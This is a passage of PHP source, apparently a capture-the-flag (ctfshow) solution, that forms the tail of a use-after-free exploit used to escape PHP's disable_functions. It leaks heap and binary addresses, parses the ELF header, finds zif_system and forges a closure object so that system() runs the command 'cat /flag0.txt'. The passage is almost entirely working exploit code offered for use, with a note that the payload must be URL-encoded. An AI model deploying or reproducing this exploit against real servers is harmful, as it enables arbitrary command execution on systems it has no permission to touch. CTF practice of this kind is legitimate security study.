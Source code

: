 ```php
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码哦

```
